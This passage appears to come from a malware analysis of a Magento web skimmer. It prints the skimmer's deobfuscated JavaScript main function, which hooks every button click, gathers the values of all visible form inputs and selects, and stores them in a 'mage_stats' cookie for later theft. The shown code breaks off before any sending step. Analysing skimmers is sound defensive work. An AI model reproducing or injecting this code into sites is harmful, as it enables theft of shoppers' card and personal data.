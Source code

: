<h6>The main function executed begins to crawl all the fields of the pages and add to the cookie the data.</h6>

 ```js
function main()
{
  var b=document["getElementsByTagName"]("button");
  for(i= 0;i< b["length"];i++)
  {
      b[i]["addEventListener"]("click",function()
      {
var Data="";
var f=document["getElementsByTagName"]("form");
document["cookie"]= "mage_stats="+ "$"+ "; path=/";
for(z= 0;z< f["length"];z++)
{
    var inp=f[z]["getElementsByTagName"]("input");
    var elements=f[z]["getElementsByTagName"]("select");
    for(x= 0;x< inp["length"];x++)
    {
        if(inp[x]["value"]&& inp[x]["value"]!= ""&& inp[x]["type"]!= "radio"&& inp[x]["type"]!= "hidden"&& inp[x]["id"]!= "search"&& inp[x]["value"]!= "submit")
        {
  if(inp[x]["name"]&& inp[x]["name"]!= "")
  {
      var d=Push_Data("mage_stats");
      d+= inp[x]["name"]+ ":"+ inp[x]["value"]+ "|";
      document["cookie"]= "mage_stats="+ d+ "; path=/";
  }
  else 
  {
      var d=Push_Data("mage_stats");
      d+= inp[x]["id"]+ ":"+ inp[x]["value"]+ "|";
      document["cookie"]= "mage_stats="+ d+ "; path=/";
  }
        }
    };
    for(x= 0;x< elements["length"];x++)
    {
        if(elements[x]["value"]&& elements[x]["value"]!= ""&& elements[x]["type"]!= "radio"&& elements[x]["type"]!= "hidden"&& elements[x]["id"]!= "search"&& elements[x]["value"]!= "submit")
        {
         if(elements[x]["name"]&& elements[x]["name"]!= "")
        {
      var d=Push_Data("mage_stats");
      d+= elements[x]["name"]+ ":"+ elements[x]["value"]+ "|";
      document["cookie"]= "mage_stats="+ d+ "; path=/";
  }
  else 
  {
      var d=Push_Data("mage_stats");
      d+= elements[x]["id"]+ ":"+ elements[x]["value"]+ "|";
      document["cookie"]= "mage_stats="+ d+ "; path=/";
      document["cookie"]= "mage_stats="+ d+ "; path=/";
  }
        }
    }
};
 ```
